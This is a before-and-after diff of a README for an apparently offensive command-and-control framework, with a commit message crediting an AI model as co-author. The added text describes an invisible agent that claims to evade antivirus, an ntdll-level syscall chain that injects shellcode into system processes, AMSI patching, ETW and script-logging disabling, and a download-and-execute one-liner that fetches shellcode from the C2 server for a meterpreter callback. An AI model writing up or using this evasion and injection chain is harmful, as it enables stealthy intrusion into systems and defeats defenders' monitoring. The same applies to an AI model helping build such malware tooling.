

Before and after one commit to neuralxploit/cyber_c2, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Detail Rust agent ConPTY/BITS capabilities and ntdll syscall injection flow
- Rust agent: ConPTY interactive PTY, BITS C2, dual mode, invisible, AV bypass
- i5_syscall.ps1: ntdll-level injection flow (NtOpenProcess → NtAllocateVirtualMemory
  → NtWriteVirtualMemory → NtProtectVirtualMemory → NtCreateThreadEx)
- i5_syscall_update.ps1: same + AMSI patch + ETW disable + logging bypass
- Updated repo description with ConPTY, dual Cloudflare, ntdll details

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

```diff
--- a/README.md
+++ b/README.md
@@ -17,10 +17,18 @@ A modular red team Command & Control framework built for penetration testing and
 
 | Agent | Language | Size | Key Feature |
 |-------|----------|------|-------------|
-| `rust_agent_v3` | Rust | ~1.8MB | Full ConPTY interactive shell, DLL variant |
+| `rust_agent_v3` | Rust | ~1.8MB | Full ConPTY PTY shell, BITS C2, bypasses all AV |
 | `nim_agent` | Nim | ~120KB | Lightweight, WinHTTP-native, EXE + DLL |
 | `cs_agent` | C# (.NET 8) | ~12MB | ConPTY + BITS support |
 | `enhanced_agent` | PowerShell | N/A | Fileless, AMSI-aware, BITS protocol |
+
+**Rust Agent (primary)** - The main agent, undetected by AV/EDR:
+- **ConPTY** (Windows Pseudo Console) - Full interactive PTY shell, spawns `powershell.exe -NoLogo -NoProfile` with proper terminal emulation
+- **BITS C2 channel** - Commands via `cmd.exe` with persistent shell session (maintains state across commands)
+- **Dual mode** - BITS polling for commands + WebSocket ConPTY for interactive shells
+- **DLL variant** - Load via `rundll32.exe` or `regsvr32`
+- **No console window** - Runs completely invisible (`CREATE_NO_WINDOW` flag)
+- **Auto-reconnect** - PTY sessions survive network interruptions
 
 All agents support:
 - HMAC-SHA256 signed authentication (no plaintext keys in traffic)
@@ -34,9 +42,21 @@ All agents support:
 - Payload generation via msfvenom (raw, exe, dll)
 - Post-exploitation module execution
 
+### Shellcode Injection & MSF Integration
+The `i5_syscall.ps1` scripts provide **ntdll-level syscall injection** for loading msfvenom shellcode:
+
+- **`i5_syscall.ps1`** - Direct NT API syscall injection (PowerShell v5+). Downloads base64 shellcode from C2, injects into a target process (`sihost`, `dllhost`, `taskhostw`) using `NtOpenProcess` → `NtAllocateVirtualMemory` → `NtWriteVirtualMemory` → `NtProtectVirtualMemory` (RW→RX) → `NtCreateThreadEx`. Bypasses all userland AV hooks since it calls ntdll directly, never touching kernel32.
+- **`i5_syscall_update.ps1`** - Same injection + **AMSI memory patch** + **ETW disable** + **Script Block Logging bypass**. Full stealth chain.
+- Shellcode is generated by `start_c5.sh` using Donut (converts Nim agent EXE → position-independent shellcode)
+- Same injection works with any msfvenom shellcode (`msfvenom -p windows/x64/meterpreter/reverse_https ... -f raw | base64`)
+
+**Flow:** `IEX(IWR .../i5_syscall.ps1)` → downloads `shellcode.txt` from C2 → injects at ntdll level → meterpreter/agent callback
+
 ### Evasion & Delivery
-- **Syscall-direct injection** - NT API calls bypassing userland hooks (ETW, AMSI)
-- **AMSI/Defender bypass** - Built-in unhooking techniques
+- **NT syscall-direct injection** - Calls ntdll directly, bypasses all userland hooks (AV, EDR, ETW, AMSI)
+- **AMSI memory patch** - Runtime AMSI unhooking via `AmsiScanBuffer` patch
+- **ETW patching** - Disables event tracing to prevent telemetry
+- **Script Block Logging bypass** - Prevents PowerShell logging
 - **ISO + LNK delivery** - Mark-of-the-Web bypass without macros
 - **HTA smuggling** - Self-contained payloads with fake progress UI
 - **Shellcode loaders** - Staged and stageless injection variants
```
